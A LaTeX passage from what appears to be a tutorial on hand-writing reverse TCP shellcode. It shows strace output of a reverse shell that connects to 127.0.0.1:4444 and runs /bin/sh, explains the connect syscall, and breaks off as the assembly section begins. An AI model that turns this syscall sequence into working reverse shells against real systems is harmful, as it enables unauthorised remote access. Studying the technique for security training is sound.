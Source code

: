 \documentclass[11pt]{article}
\begin{document}
Once again, if we use \verb~strace ./reversetcpshell~ when starting the reverse
shell we can see the system calls being made:

\begin{verbatim}
socket(PF_INET, SOCK_STREAM, IPPROTO_IP) = 3
dup2(3, 0)                              = 0
dup2(3, 1)                              = 1
dup2(3, 2)                              = 2
connect(3, {sa_family=AF_INET, sin_port=htons(4444), sin_addr=inet_addr("127.0.0.1")}, 16) = 0
execve("/bin/sh", [0], [/* 0 vars */])  = 0
\end{verbatim}

Interestingly, our c program is shorter and the amount of system calls
that we need seems to have decreased. It seems as though our reverse
tcp shellcode could be as basic as using \verb~socket, dup2, connect, and execve~.
Essentially we do not need to worry about \verb~bind, listen, or accept~ and
just need to learn about 1 system call we haven't used before; \verb~connect~.

Ok, what can we learn about connect?


\begin{verbatim}
int connect(int socket, const struct sockaddr *address, socklen_t address_len);
\end{verbatim}

If we remember the function signature of bind:

\begin{verbatim}
int bind(int sockfd, const struct sockaddr *addr, socklen_t addrlen);
\end{verbatim}

We see that they are exactly the same! The only difference is that when
we define the sockaddr structure we will want to specify the IP of the
machine that we want to connect back to instead of the 0.0.0.0 IP we
specified in our bindshell.

Cool! Lets write some assembly\ldots{}

\subsection{Assembly: Take 1}
\label{sec-1-6}

If we remember our research on  creating our bindshell,
the system call for \verb~SYS_CONNECT~ was 3.

\begin{verbatim}
#define SYS_CONNECT 3   /* sys_connect(2)   */
\end{verbatim}
\end{document}

